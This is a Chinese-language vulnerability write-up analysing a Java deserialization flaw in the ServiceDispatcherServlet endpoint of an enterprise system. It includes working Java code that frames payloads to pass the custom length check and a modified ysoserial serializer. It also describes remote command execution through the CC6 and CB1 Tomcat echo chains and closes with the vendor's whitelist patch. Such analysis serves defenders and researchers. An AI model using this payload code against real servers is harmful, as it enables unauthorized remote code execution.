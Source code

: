 某Clound系统公开并修复了很多反序列化漏洞，大多反序列点是直接对用户输入的序列化数据执行反序列化操作，并结合系统中存在的反序列利用链，攻击者可以进行命令执行。  
本次的起因是通过公开的漏洞路径复现时，发现无法直接使用ysoserial工具生成的payload进行利用。与之前的反序列化漏洞情况不同，需要找找原因。如有疏漏，欢迎大佬指正包涵。

ServiceDispatcherServlet反序列化漏洞分析
--------------------------------

公开的漏洞路径为`/ServiceDispatcherServlet`  
![image.png](https://shs3.b.qianxin.com/butian_public/f3599575a4c1d85b963f1d5569e5340a912b8f7303c57.jpg)

路由分析
----

在WEB-INF目录下，找到漏洞路径对应的服务名称为`CommonServletDispatcher`  
![image.png](https://shs3.b.qianxin.com/butian_public/f4872745bce6583e6c39edd199051d1c0cace602f2e75.jpg)  
继续浏览该文件，通过服务名找到映射的类`nc.bs.framework.comn.serv.CommonServletDispatcher`  
![image.png](https://shs3.b.qianxin.com/butian_public/f342297a7cb69f07d37af1d646916dec68bf7462ecad3.jpg)  
经过耐心的搜索查找，在`fw.jar`文件中找到对应的类文件。  
![image.png](https://shs3.b.qianxin.com/butian_public/f98166187323f23eb616539d33e6c090e9efeb848f559.jpg)  
阅读类文件中源码，发现事情果然没有辣么简单。  
在服务初始化时，会通过反射调用的方式，调用web.xml文件中的初始化参数service所对应的类`nc.bs.framework.comn.serv.ServiceDispatcher`，并将类实例化赋给`serviceHandler`，方便后面调用。  
![image.png](https://shs3.b.qianxin.com/butian_public/f18225914249992a65b29b9281e2d679870598ac2977c.jpg)  
![image.png](https://shs3.b.qianxin.com/butian_public/f464135bc8cf55290db531c5f7726372715d22d44158e.jpg)  
看看之后操作，还是在`CommonServiceDispatcher`中，存在`doGet`方法对传递进来的get请求处理。  
![image.png](https://shs3.b.qianxin.com/butian_public/f4992496c1e933b655db83f76fb3d1b59da4e8544d165.jpg)  
此处，就是前面的`serviceHandler`实例出场，调用`ServiceDispatcher`类中的`exeCall`方法对请求数据进行处理。  
![image.png](https://shs3.b.qianxin.com/butian_public/f29924838ab065e8f3883beb97cacb615b3e829ebc0a8.jpg)  
当然，还存在`doPost`方式，但同样调用`doGet`方法对请求数据进行处理。  
![image.png](https://shs3.b.qianxin.com/butian_public/f8007164492f6334a48fea8ff583a87fd49761c6a810e.jpg)

反序列化利用失败原因分析
------------

后面就需要进一步跟进`ServiceDispatcher`类中的代码，看看对请求数据的处理流程。  
还好`ServiceDispatcher`和`CommonServiceDispatcher`就在同路径下，得来全不费工夫。  
跟进`ServiceDispatcher`类中，优先看看这个`execCall`方法，发现对请求中的数据使用`readObject`方法进行处理。  
![image.png](https://shs3.b.qianxin.com/butian_public/f142309d5a318589b2ec5db58aaf5ccc5f8719668c584.jpg)  
之前的反序列化漏洞如下面的代码片段所示，是直接对请求包中数据调用对象输入流的readObject方法。而`ServiceDispatcher`类中的不同点就是它使用了自己的`readObject`方法对请求包中的数据进行处理，因此还需要继续跟进该方法。

```php
.......
ObjectInputStream ois = new ObjectInputStream(request.getInputStream());
Object input = ois.readObject();
......
```

找到`ServiceDispatcher`类中`readObject`方法。前面部分的代码比较难理解具体作用，但能看出来是对传入的数据进行转化、分解和检测操作的。先根据传入信息创建对应长度的空字节数组，之后读取该长度的信息到字节数组中。  
重点是最后else中的部分，会将对字节数组使用`NetObjectInputStream`进行readObject反序列化  
![image.png](https://shs3.b.qianxin.com/butian_public/f140856f03c91a5694fe42afd19bd1aad17bda1c85f1b.jpg)  
这里肯定会比较好奇`NetObjectInputStream`的作用，其实它就是继承自`ObjectInputStream`实现的自定义的序列化类，因此同样存在反序列时自动调用的问题。  
![image.png](https://shs3.b.qianxin.com/butian_public/f731422618f2f5e06c4da3f150105fbb8627ae88665de.jpg)  
但是想要进入else到达这个触发点，还存在障碍。因为if判断会对传入的数据进行合法性检测。经过调试发现，直接使用ysoserial工具生成序列化数据就是因为这个原因无法正常反序列化，导致反序列化利用失败。

问题解决
----

经过代码调试和一系列错误的序列化数据构造尝试后，最终发现原来`ServiceDispatcher`类中`readObject`方法对传入的序列化数据前4个字节格式有要求。同时，还需要使用自定义的序列化类`NetObjectOutputStream`来生成序列化数据。  
![image.png](https://shs3.b.qianxin.com/butian_public/f609444b66e54deb5b3e30b1ff2c6277464f4e785d206.jpg)  
![image.png](https://shs3.b.qianxin.com/butian_public/f4107778769be3a0fb32d1cfcaa6e557c8799d13f5718.jpg)  
在客户端的jar包文件中可以找到使用自定义的序列化类`NetObjectOutputStream`来写入序列化数据并向服务端发送。  
![image.png](https://shs3.b.qianxin.com/butian_public/f1525327aad90d0b5a593acf459b28a5373f87b5315dd.jpg)  
跟进一下`NetObjectOutputStream`类的`writeObject`方法。  
![image.png](https://shs3.b.qianxin.com/butian_public/f803270fc6cebf38461c5881bb10bec7bc6d779abdc34.jpg)  
参考上述`writeObject`代码，编写序列化方法。在`NetObjectOutputStream`类序列化对象输出流后，在前面添加对象输出流大小移位操作后的字节数组，这样就能保证序列化数据能顺利通过if-else判断进入反序列化操作。

```php
public static void serialize(Object obj) throws IOException {
    // 创建一个字节数组输出流
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    // 创建一个对象输出流
    NetObjectOutputStream oos = new NetObjectOutputStream(baos);
    oos.writeObject(obj);
    oos.finish();
    oos.flush();
    // 获取字节数组
    byte[] bytes1 = {(byte) ((baos.size() >>> 24) & 255), (byte) ((baos.size() >>> 16) & 255), (byte) ((baos.size() >>> 8) & 255), (byte) ((baos.size() >>> 0) & 255)};
    byte[] bytes2 = baos.toByteArray();
    // 将字节数组转换为十六进制字符串并输出
    String hexString1 = DatatypeConverter.printHexBinary(bytes1);
    String hexString2 = DatatypeConverter.printHexBinary(bytes2);
    System.out.println(hexString1+hexString2);
}
```

![image.png](https://shs3.b.qianxin.com/butian_public/f1167869fa204054d050729c3c219aae7cb6ac2275187.jpg)

漏洞复现
----

编写DNSURL链进行反序列化点的探测，序列化方法使用上面提供代码即可。注意一定要引入对应系统版本的依赖包`fw.jar`和`basic.jar`，否则生成的序列化数据可能会无法成功反序列化。  
![image.png](https://shs3.b.qianxin.com/butian_public/f73771362befbb5ac78aa4b0df06942efb3ec85f33041.jpg)  
输出十六进制字符串payload  
![image.png](https://shs3.b.qianxin.com/butian_public/f126330e3cdd644b21eb51fd37aedc8a89c39a742ea3a.jpg)  
利用Yakit十六进制解码功能标签构造数据包，成功触发dnslog的请求，探测到该反序列化点可用。（本文后面使用的发包测试工具均为[Yakit](https://www.yaklang.com/products/outofdate/quickstart/)）  
![image.png](https://shs3.b.qianxin.com/butian_public/f8953195a993750bb18d4ae13530b961f15b4c9605d38.jpg)  
![image.png](https://shs3.b.qianxin.com/butian_public/f6553823d79bf84ff2071b64f63832ffda7fcc06d806f.jpg)

### CC6链测试

该系统依赖中，发现有用到commons-collections 3.2.1，则可以通过CC链达到命令执行目的。  
![image.png](https://shs3.b.qianxin.com/butian_public/f5235730129c996d8620730d50eddb608ce795f78bc49.jpg)  
因为版本缘故，对多条CC链进行测试，成功利用CC6链进行远程命令执行。  
![image.png](https://shs3.b.qianxin.com/butian_public/f321287024331d2176c84d21d7f518bc274200177dcc8.jpg)  
![rce-gif.gif](https://shs3.b.qianxin.com/butian_public/f2011553a60dddf57501e49e5c4587a1a231d461ef2c8.jpg)

### 回显链测试

虽然可以进行远程命令执行，但是CC6链使用起来还是不方便，就进一步测试能否找到可用的回显链。  
尝试构造CC6的回显链暂未成功，还有待继续跟进学习。  
但经过对比测试，该系统依赖中正好也发现commons-beanutils 1.8.0，则可以使用CB1利用链进行远程命令执行。  
![image.png](https://shs3.b.qianxin.com/butian_public/f13675833176e5cafff5ef0d965e9f4b4d5198ffb1c45.jpg)  
回显的话，还需要收集框架或者中间件信息，方便确定回显链。这里看到该系统使用了Tomcat中间件。![image.png](https://shs3.b.qianxin.com/butian_public/f6206126f24ebb2d5fcf12f8a58ab7a1805e81792fa0f.jpg)  
通过学习相关文档及测试开源代码，最终利用Y4er师傅开源的`CommonsBeanutils183NOCC`和`TomcatCmdEcho`回显链测试成功。项目地址：[Y4er/ysoserial](https://github.com/Y4er/ysoserial)  
因为该项目是针对常见的序列化方式进行开发的，为了满足本次漏洞的利用，需要对项目中序列化部分的代码进行修改。主要是使用自定义的序列化类`NetObjectOutputStream`生成序列化数据，并在头部添加数据大小的移位字节。修改的Serializer.java内容如下：

```php
package ysoserial;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.io.OutputStream;
import java.util.concurrent.Callable;

import nc.bs.framework.comn.NetObjectOutputStream;
import javax.xml.bind.DatatypeConverter;

public class Serializer implements Callable<byte[]> {
    private final Object object;

    public Serializer(Object object) {
        this.object = object;
    }

    public static byte[] serialize(final Object obj) throws IOException {
        final ByteArrayOutputStream out = new ByteArrayOutputStream();
        serialize(obj, out);

        byte[] bytes1 = {(byte) ((out.size() >>> 24) & 255), (byte) ((out.size() >>> 16) & 255), (byte) ((out.size() >>> 8) & 255), (byte) ((out.size() >>> 0) & 255)};
        byte[] bytes2 = out.toByteArray();
        // 将字节数组转换为十六进制字符串并输出
        String hexString1 = DatatypeConverter.printHexBinary(bytes1);
        String hexString2 = DatatypeConverter.printHexBinary(bytes2);
        System.out.println(hexString1+hexString2);

        return out.toByteArray();
    }

    public static void serialize(final Object obj, final OutputStream out) throws IOException {
//        final ObjectOutputStream objOut = new ObjectOutputStream(out);
        final NetObjectOutputStream objOut = new NetObjectOutputStream(out);
        objOut.writeObject(obj);
        objOut.finish();
        objOut.flush();
    }

    public byte[] call() throws Exception {
        return serialize(object);
    }
}
```

在项目main目录下编写测试文件，调用CB1Tomcat回显链生成序列化数据。  
![image.png](https://shs3.b.qianxin.com/butian_public/f6475164916851f6f26723a528446ae0b0c5d79810176.jpg)  
成功触发回显命令执行  
![image.png](https://shs3.b.qianxin.com/butian_public/f111472e07a91e9535e7904eaf0c65f0a9023c9f7322f.jpg)

漏洞修复
----

下载官方的补丁包即可修复。补丁是在`NetObjectInputStream`类的构造方法中增加了 InvocationInfo.class、ESBContextForNC.class 两个白名单限制类，来限制恶意的数据反序列化。

参考文章  
<https://www.4hou.com/posts/nJnl>  
[https://blog.csdn.net/qq\_41904294/article/details/134277353](https://blog.csdn.net/qq_41904294/article/details/134277353)